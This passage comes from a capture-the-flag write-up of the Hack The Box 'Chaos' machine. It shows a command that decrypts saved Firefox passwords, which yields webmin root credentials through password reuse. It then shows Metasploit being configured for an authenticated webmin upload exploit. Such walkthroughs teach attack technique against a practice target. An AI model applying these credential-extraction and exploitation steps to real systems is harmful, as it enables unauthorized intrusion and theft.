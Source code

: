 Looking at the logins.json file contents. We see a username / password is saved for this machine we're attacking with port 10000. If we remember back to our port scan, we found webmin running on port 10000. We also found an exploit that allows RCE as root if we are authenticated to webmin. Looks like we're close to the second flag.

Back to the mozilla credentials, they're encrypted. Firefox has the ability to use a master password to encrypt the passwords stored on disk to make our life as an attacker a little more difficult. There's a python script that can decrypt these for us called [firefox_decrypt.py][3]. We just need to pass the script the master password. The first thing we try are the webmail credentials as ayush has proven he reuses passwords, and it works:

```text
~/ctf/htb/chaos λ python ../../code/firefox_decrypt/firefox_decrypt.py mozilla/firefox/bzo7sjt1.default 
2019-05-26 08:53:27,018 - WARNING - profile.ini not found in mozilla/firefox/bzo7sjt1.default
2019-05-26 08:53:27,018 - WARNING - Continuing and assuming 'mozilla/firefox/bzo7sjt1.default' is a profile location

Master Password for profile mozilla/firefox/bzo7sjt1.default: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```

## Exploitation: 2
One step closer. We go back to webmin and login to ensure the credentials work, they do. Now we have an authenticated session to the webmin service, which is all we need for the exploit we first found to work. The exploit is built for the metasploit framework, so let's start that up and setup the exploit:

```text
~/ctf/htb/chaos λ msfconsole
       =[ metasploit v5.0.23-dev                          ]
+ -- --=[ 1893 exploits - 1066 auxiliary - 329 post       ]
+ -- --=[ 546 payloads - 44 encoders - 10 nops            ]
+ -- --=[ 2 evasion                                       ]

msf5 > use exploit/unix/webapp/webmin_upload_exec
msf5 exploit(unix/webapp/webmin_upload_exec) > show options

Module options (exploit/unix/webapp/webmin_upload_exec):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILENAME                      no        Filename used for the uploaded data
   GUESSUPLOAD  false            yes       If no "proc" permissions exists use default path.
   PASSWORD                      yes       Webmin Password
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target address range or CIDR identifier
   RPORT        10000            yes       The target port (TCP)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Base path for Webmin application
   USERNAME                      yes       Webmin Username
   VHOST                         no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.900

msf5 exploit(unix/webapp/webmin_upload_exec) > set password Thiv8wrej~
password => Thiv8wrej~
```

[1]: https://www.hackthebox.eu
[2]: https://www.exploit-db.com
[3]: https://github.com/Unode/firefox_decrypt